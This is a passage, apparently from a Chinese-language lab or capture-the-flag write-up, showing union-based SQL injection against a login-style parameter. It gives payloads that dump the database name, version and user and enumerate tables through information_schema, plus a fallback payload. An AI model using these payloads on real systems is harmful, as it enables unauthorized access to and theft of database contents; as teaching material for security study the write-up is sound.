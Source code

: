 确定这里有显示就已经`ok`了，还没有对于`union 、 select`等关键字进行过滤操作

直接上

```shell
tom' union select database(),version(),3,user(),5,6#
```

![](./pic-9/8.jpg)

构造语句获取表

```shell
tom' union select group_concat(table_name),version(),3,user(),5,6 from information_schema.tables where table_schema=database()#

后面因为原因，再次想要访问，发现原本的语句不能使用，下面是换的语句
tom' union select concat(table_name),null,null,null,null,null from information_schema.tables#
```

![](./pic-9/9.jpg)
